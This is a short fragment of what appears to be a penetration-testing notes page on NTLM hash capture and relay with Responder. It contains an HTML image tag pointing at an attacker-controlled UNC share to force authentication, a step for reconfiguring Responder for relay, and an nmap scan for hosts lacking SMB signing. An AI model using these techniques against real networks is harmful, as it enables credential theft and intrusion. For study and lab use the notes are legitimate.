 ```
<img src="\\192.168.102.147\ADMIN$">
```

It is very useful to know that when the password length is less than or equal to seven characters (i.e. 1235467), the last 8 bytes of the NTLM response are always the same: **2f85252cc731bb25.**

{% embed url="https://blog.rapid7.com/2016/07/26/capturing-credentials-on-an-internal-network/" %}

## <mark style="color:red;">Using Responder</mark>

first go to responder config file and disable smb and http:

```
nano /usr/share/responder/Responder.conf
```

![](<../../.gitbook/assets/image (221) (1).png>)

#### <mark style="color:green;">detect machines with smb signing disabled</mark>

```
 nmap --script smb2-security-mode -p 445 192.168.56.1/24
```
